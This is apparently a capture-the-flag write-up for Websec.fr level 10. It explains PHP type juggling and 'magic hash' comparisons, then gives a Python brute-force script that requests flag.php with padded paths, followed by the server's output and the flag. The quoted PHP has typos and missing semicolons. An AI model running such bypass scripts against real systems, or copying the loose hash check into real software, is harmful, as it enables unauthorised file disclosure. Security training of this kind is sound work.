 ```yaml
---
title: Websec.fr level 10 - easy
date: September 12, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/10c45219-d08b-4614-86cd-bb2cdd32cd3b)

```php
<?php
if (isset ($_REQUEST['f']) && isset ($_REQUE['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash']
    $hash = substr (md5 ($flag . $file . $flag), 0, 8)
    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
    show_source ($file);
    } else {
    echo 'Permission denied!';
    }
    echo '</pre></div>';
}
?>
```
Ok, so what do we have here ? if 'f' and 'hash' is set in our data in the request we send, and the first 8 chars of the md5 of $flag + $file + $flag is equal to $request (which is 'hash') we will show the source file (which is obviously flag.php)

So, what is the catch ? Let's talk about Type Juggling.

## Type Juggling
PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).


## Magic Hashes
Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations.

So, basically, if we input in our request hash in the form 0e{some_numbers} then we also input a file that the first 3 chars is 0e then a number, they will be equal and will get the content of the flag. So starting with a basic script to check it's possible.

<b>Remember</b> ! the only think we can change is the amount of / in ./flag.php

```python
counter = 1
while True:
    f = f".{'/' * counter}flag.php"
    if str(hashlib.md5(f"abc{f}abc".encode()).hexdigest()).startswith("0e"):
        print("Did it !!")
        print(f)
        break
    counter += 1
```

![image](https://github.com/user-attachments/assets/2894fd4c-bf3b-4781-b20b-319a7ea2797a)

Cool ! so it's possible, let's write full script

```python
import requests
import hashlib

counter = 1
while True:
    prefix = f".{'/' * counter}"
    print(f"Trying {counter} times")
    r = requests.post("http://websec.fr/level10/index.php", data={
        'hash': "0e1",
        'f': prefix + 'flag.php'
    })

    if "WEBSEC{" in r.text:
        print(f"Did it !!! only after {counter} tries")
        print(r.text)
        break

    counter += 1
```

```
Trying 881 times
Did it !!! only after 881 tries

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Ten</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css"/>
</head>
<body>
<div id="main">
    <div class="container">
        <div class="row">
            <h1>LevelTen<small> - Awesome File Downloader.</small></h1>
        </div>
        <div class="row">
            <p class="lead">
		Here we have a <a href="source.php">cool file downloader</a>. It allows you to download arbitrary files, even <mark>flag.php</mark>,
		as long as it's a legit request!<br>
                Thanks to an <mark>anonymous contributor</mark> for this challenge.
            </p>
        </div>
    </div>
    <div class="container">
        <div class="row">
            <form name="username" method="post" class="form-inline">
                    <div class="form-group">
                        <label for="f">File</label>
                        <span class='text-success'></span>
                        <input type="text" class="form-control" required id="f" value="index.php" name="f">
                    </div>
                    <div class="form-group">
                        <label for="hash">Secret hash</label>
			<input type="text" class="form-control" required id="hash" value="b4382d64" name="hash" >
                    </div>
                <button type="submit" class="btn btn-default">Get!</button>
            </form>
        </div>
        <div class="row"><br><pre><code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">"WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}"</span><span style="color: #007700">;<br /></span>
</span>
</code></pre></div>    </div>
</div>
<link rel="stylesheet" href="../static/bootstrap.min.js"/>
</body>
</html>
```

```
WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}
```

Great ! Thanks for reading !!!